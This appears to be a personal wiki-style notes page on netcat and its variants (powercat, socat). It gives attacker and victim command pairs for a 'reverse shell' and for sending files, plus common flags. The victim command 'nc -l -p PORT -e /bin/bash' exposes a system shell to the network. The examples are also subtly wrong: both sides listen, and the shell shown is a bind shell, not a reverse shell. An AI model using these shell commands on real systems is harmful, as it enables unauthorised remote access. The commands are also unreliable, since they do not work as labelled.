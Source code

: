 # netcat, ncat, nc
---
Tool for interacting with [[TCP]]/[[[UDP]]. It's primary used for connecting to shells. It can be also used for sending files:

**powercat** is netcat [[powershell]] version.
**[[socat]]** is a similar tool but more powerful 

---
## Examples:
#### Reverse shell 
##### Attacker:
```bash
nc -l IP PORT
```
##### Victim:
```bash
nc -l -p PORT -e /bin/bash
```

#### Sending file:
##### Attacker:
```bash
cat '/home/user/file_to_send.txt' | nc -l IP PORT
```
##### Victim:
```bash
nc -l -p PORT > recived_file.txt
```

---
## Common flags:
```bash 
-p port
-l listen 
-e execute
```

---
## Resources:
`man netcat`
https://github.com/besimorhino/powercat

---
## Tags:
#send #nc #netcat #reverse-shell
